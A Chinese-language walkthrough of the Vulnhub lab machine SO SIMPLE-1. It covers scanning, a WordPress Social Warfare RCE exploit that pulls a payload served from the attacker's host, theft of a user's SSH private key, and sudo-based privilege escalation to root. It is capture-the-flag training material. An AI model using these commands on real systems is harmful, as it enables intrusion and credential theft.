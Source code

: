 ```yaml
---
layer: article
title: Vulnhub	515 SO SIMPLE-1
tags: pentest vulnhub Walkthrough
---
```

考点：dirsearch,wordpress,sudo,id_rsa

靶机链接：<https://www.vulnhub.com/entry/so-simple-1,515/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| SIMPLE-1   | 10.0.2.30 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.30
$ sudo nmap -v -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5b:55:43:ef:af:d0:3d:0e:63:20:7a:f4:ac:41:6a:45 (RSA)
|   256 53:f5:23:1b:e9:aa:8f:41:e2:18:c6:05:50:07:d8:d4 (ECDSA)
|_  256 55:b7:7b:7e:0b:f5:4d:1b:df:c3:5d:a1:d7:68:a9:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: So Simple
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

### WEB测试

#### dirsearch

```bash
$ dirsearch -u http://10.0.2.30                    
[05:09:36] 200 -   13KB - /wordpress/                                       
[05:09:36] 200 -    5KB - /wordpress/wp-login.php
```

看来是搞wordpress了

### 漏洞发现

```bash
$ wpscan --url http://10.0.2.30/wordpress/ --api-token ******************************************* 
```

![1](https://static.iihack.com/vulnhub/515/1.jpg)

参考[WordPress Plugin Social Warfare < 3.5.3 - Remote Code Execution](https://www.exploit-db.com/exploits/46794)

![2](https://static.iihack.com/vulnhub/515/2.jpg)

## 获得权限

### getwebshell

kali上开web服务

```bash
$ python -m 'http.server' 80
```

![3](https://static.iihack.com/vulnhub/515/3.jpg)



```bash
$ python2  46794.py -t http://10.0.2.30/wordpress/ -p http://10.0.2.24/CVE/CVE-2019-9978 
```

执行后访问shell地址返回200，使用antsword连接成功

![4](https://static.iihack.com/vulnhub/515/4.jpg)

### 获得id_rsa

发现`/home/max/.ssh/`目录可访问，下载id_rsa文件成功

ssh远程访问成功

![5](https://static.iihack.com/vulnhub/515/5.jpg)

## 提权

可免密执行`service`，[GTFOBins](https://gtfobins.github.io/gtfobins/service/)一把梭

![6](https://static.iihack.com/vulnhub/515/6.jpg)

成功切换用户

继续查看`sudo -l`，发现可免密执行`/opt/tools/server-health.sh`，但是这个文件不存在，只好自己新建写入了，运行获得root

![7](https://static.iihack.com/vulnhub/515/7.jpg)
